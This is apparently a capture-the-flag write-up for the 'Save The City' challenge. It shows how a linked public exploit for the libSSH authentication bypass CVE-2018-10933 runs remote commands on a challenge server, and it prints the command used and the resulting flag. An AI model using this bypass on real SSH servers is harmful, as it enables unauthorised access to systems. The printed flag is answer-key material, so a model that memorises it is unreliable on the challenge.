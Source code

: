 # Save The City

## Description

The RAW Has Got An Input That ISIS Has Planted a Bomb Somewhere In The Pune! Fortunetly, RAW Has Infiltratrated The Internet Activity of One Suspect And They Found This Link. You Have To Find The Location ASAP!

## Introduction

Upon connecting via netcat (`nc`), the server provides the name of the libSSH library. If the output is 0.8.1, 0.7.5, 0.6.*, or lower, the server is vulnerable to CVE-2018-10933.

### Installation

Clone the code:

```bash
https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d
```

### Usage 

- Navigate to the cloned directory. 
- Run the exploit script with the appropriate parameters: 

```py
python libsshauthbypass.py <ip> --port <port> --command <command_line>
```

Replace <ip> with the IP address of the vulnerable server, <port> with the port number, and <command_line> with the desired command to execute. 

### Example 

```py
python libsshauthbypass.py 192.168.1.100 --port 22 --command "whoami"
```

This command will exploit the vulnerability on a server with IP address 192.168.1.100 listening on port 22, executing the whoami command.

## Exploit

```py
python exploit.py 13.234.11.113 --port 32176 --command "cat location.txt"
```

> Flag: VishwaCTF{elrow-club-pune}